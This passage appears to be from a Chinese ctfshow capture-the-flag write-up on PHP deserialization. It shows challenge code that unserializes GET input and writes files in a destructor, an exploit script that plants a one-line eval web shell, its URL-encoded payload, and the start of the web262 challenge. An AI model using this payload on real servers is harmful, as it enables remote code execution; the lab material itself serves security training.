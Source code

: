 ```php
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password); //终点，写 shell
        }
    }
}

unserialize($_GET['vip']);
```

```php
<?php
echo 0x36D=="877x.php"
echo "<br>";    
class ctfshowvip{
    public $username;
    public $password;
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
}
echo urlencode(serialize(new ctfshowvip('877x.php','<?php @eval($_POST[gsl]);?>')));
```

```
1
O%3A10%3A%22ctfshowvip%22%3A2%3A%7Bs%3A8%3A%22username%22%3Bs%3A8%3A%22877x.php%22%3Bs%3A8%3A%22password%22%3Bs%3A27%3A%22%3C%3Fphp+%40eval%28%24_POST%5Bgsl%5D%29%3B%3F%3E%22%3B%7D
```

## web262

```php
<?php

error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```
